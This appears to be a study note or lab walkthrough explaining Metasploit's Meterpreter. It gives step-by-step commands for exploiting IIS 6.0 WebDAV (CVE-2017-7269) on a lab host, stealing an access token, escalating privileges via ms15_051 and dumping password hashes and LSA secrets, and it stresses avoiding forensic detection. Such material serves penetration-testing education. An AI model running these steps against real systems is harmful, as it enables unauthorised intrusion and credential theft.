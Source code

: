 # Metasploit Meterpreter

#Meterpreter is a #payload for the #Metasploit application that uses #DLL injection to form a stable connection to a remote host that will persist through reboots of the target system. It runs within the memory of the target host, avoiding the storage of the machine so that no trace of it is evident. 

When we exploit the Meterpreter payload, several things are happening:

- A stager is executed on the target host to initialize a reverse, bind, or other shell type.
- This stager loads Reflective #DLL that loads and injects the code. 
- Meterpreter initializes via #AES encrypted GET request that is sent back to Metasploit to configure the client (attack) host. 
- Meterpreter loads extensions like stdapi and priv if administrative rights are available and loads them via the AES encryption. 
- The Meterpreter shell is created allowing for a stable connection to the remote host.

Meterpreter is like having a reverse shell with more functionality. The applications focuses on being powerful and extensible while remaining undetected. 

#### Stealth

Since Meterpreter exists within the memory of the target host and uses AES encryption, there is little to no evidence of it's presence during forensic investigations. Meterpreter does not create new processes and instead uses a compromised process to perform all of it's actions on the target.

#### Power

Meterpreter uses channels to communicate that allows for AES encrypted traffic.

#### Extensible

Meterpreter is modular by design and can be modified even while actively facilitating a session.

### Use

In the example, we will run an #nmap scan through the metasploit console and then view the lists of available hosts and services:

>db-nmap -sV -p- -T5 -A 10.10.10.10
>hosts
>services

We will then submit the target host #IP address as a #URL to see the hosted web page:

>\http://10.10.10.10

After looking at the nmap scan and the page data for the web page, we can see that the target is running Microsoft IISS httpd 6.0. We can then search for exploits related to this application. Further research about this application wil reveal vulnerabilities related to IIS. After a web search, you will find that vulnerability CVE-2017-7269 is common and there is an existing Metasploit module that can exploit it.

Within msfconsole, search for the iis_webdav_upload_asp exploit:

>search iis_webdav_upload_asp

This search will reveal only one exploit with the ID number 0. Run it:

>use 0
>show options

After setting the correct values for RHOST and LHOST, we will be able to execute our reverse shell on the target host:

>set RHOST 10.10.10.10
>set LHOST tun0
>run

In the output after executing the exploit, there will be a notable .asp file names metasploit288579905 on the target. The metasploit application tried to delete this file but was unable to do so due to it's low permission level. This means that we installed a file on the target that would be traceable by a system administrator or forensic investigator. This could be blocked by threat detection tools and firewall #regex that can recognize keywords to detect malicious files. In the case of this example, our access will be denied and we will need to execute our exploit with escalated privileges. 

We are not able to run the command "getuid" as our access is denied. There are some other commands we can issue however:

>ps

This will output the list of processes running on the target. A process of note has #PID 1836 for wmiprvse.exe under a default administrative account named NT AUTHORITY\\NETWORK SERVICE.

We can use the following command to steal the access token used by the administrative account to escalate our privileges on the target.

>steal-token 1836

This will apply the administrator token to our instance of Meterpreter to grant us more access:

>getuid

The 'getuid' command should now work and we can navigate through the file system looking for sensitive information. In this example, there is a folder called AdminScripts within the C:\\Inetpub\\ directory. 

>cd C:\\Inetpub
>dir
>cd AdminScripts

Once again we are denied access and we must find another way to access this folder. 

Since we have escalated our privileges once, we can now background our established session with the target and use Metasploit's built-in exploit suggester module. This will scan the target system for known exploits and suggest them to us. We can then bind this module to our current session using the active session ID number:

>meterpreter > bg
>y
>search local_exploit_suggester

The above commands will background our current session and search for the suggester module. The output will only have a single module with ID 0. 

>use 0
>show options

We will then see that one of the only parameters we need to set is the session number we are binding to:

>set SESSION 1
>run

The exploit suggester will output several options for exploitation. After trying a few of them, the ms15_051_client_copy_image proves successful granting a reverse shell with root access:

>use exploit/windows/local/ms15_051_client_copy_images
>show options
>set session 1
>set LHOST tun0
>run

The exploit should successfully run on the target system, giving us root access:

>getuid

Now that we have complete access over the target host, we can use more of the Meterpreter functions like process replication and hash extraction. We could even access the webcam or microphone. 

>hashdump
>lsa_dump_sam

We can then gain complete control over the system by looting it using the 'lsa_dump_secrets' command:

>lsa_dump_secrets

This will give us valuable information allowing us to navigate through the system and the network it's connected to. We can access internal resources and impersonate users to further expand our access through the network if it is weakly protected.

